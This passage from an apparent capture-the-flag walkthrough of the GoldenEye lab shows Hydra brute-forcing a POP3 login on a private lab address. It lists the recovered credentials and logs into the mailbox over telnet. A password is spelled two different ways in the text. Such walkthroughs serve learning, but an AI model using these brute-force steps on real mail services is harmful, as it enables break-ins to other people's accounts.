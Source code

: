 ```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-19 13:45:18
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://192.168.56.101:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[55007][pop3] host: 192.168.56.101   login: natalya   password: bird
[STATUS] 111.00 tries/min, 222 tries in 00:02h, 1 to do in 00:01h, 15 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-19 13:47:19
```

So now, we have these credentials for the dovecot pop3 service:

+ user: boris
+ password: secre1!

* user: natalya
+ password: bird


#### **Sixth**, let's access dovecot pop3 service 

We can use telnet as before:

```bash
telnet 192.168.56.101 55007
```

Results:

```
Trying 192.168.56.101...
Connected to 192.168.56.101.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
```

Let's going to see all messages in our inbox:

```
# List messages in inbox
LIST
```

Results:

```
+OK 3 messages:
1 544
2 373
3 921
.
```
